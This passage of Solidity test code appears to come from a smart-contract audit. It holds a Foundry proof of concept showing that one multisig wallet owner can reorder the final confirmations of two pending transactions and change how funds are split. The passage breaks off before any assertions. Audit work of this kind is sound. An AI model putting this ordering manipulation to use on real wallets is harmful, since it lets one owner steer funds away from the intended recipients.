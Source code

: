 ```
    IExchangeV3 exchangeV3;
    IMultiSigWallet multiSigWallet;

    function setUp() public {
        vm.selectFork(vm.createFork(MAINNET_RPC_URL, MAINNET_BLOCK_NUMBER));

        exchangeV3 = IExchangeV3(ADDRESS_CONTRACT_ExchangeV3);
        multiSigWallet = IMultiSigWallet(ADDRESS_CONTRACT_MultiSigWallet);

        // as gas fee
        vm.deal(ADDRESS_USER_Attacker, 1 ether);
        // vm.deal(ADDRESS_USER_USER1, 1 ether);
        // vm.deal(ADDRESS_USER_USER2, 1 ether);
        vm.deal(ADDRESS_USER_ExchangeV3Owner, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner1, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner2, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner3, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner4, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner5, 1 ether);
        vm.deal(ADDRESS_USER_MultiSigWalletOwner6, 1 ether);
    }

    function testYttriumzz0002() public {
        // The POC assumes the following scenario to reveal the impact of execution order:
        //   Execute1 transfer 0.5ETH to User1
        //   Execute2 to transfer the remaining wallet to User2
        //   Expect User1 and User2 to receive 0.5 ETH each

        vm.deal(ADDRESS_CONTRACT_MultiSigWallet, 1 ether);

        // Execute1
        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner1);
        uint transaction1Id = multiSigWallet.submitTransaction(ADDRESS_USER_USER1, 0.5 ether, "");
        vm.stopPrank();

        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner2);
        multiSigWallet.confirmTransaction(transaction1Id);
        vm.stopPrank();

        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner3);
        multiSigWallet.confirmTransaction(transaction1Id);
        vm.stopPrank();

        // Execute2
        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner1);
        uint transaction2Id = multiSigWallet.submitTransaction(ADDRESS_USER_USER2, address(multiSigWallet).balance, "");
        vm.stopPrank();

        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner2);
        multiSigWallet.confirmTransaction(transaction2Id);
        vm.stopPrank();

        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner3);
        multiSigWallet.confirmTransaction(transaction2Id);
        vm.stopPrank();

        // The Owner4 control the execution order
        vm.startPrank(ADDRESS_USER_MultiSigWalletOwner4);
        multiSigWallet.confirmTransaction(transaction2Id);
        multiSigWallet.confirmTransaction(transaction1Id);
        vm.stopPrank();

```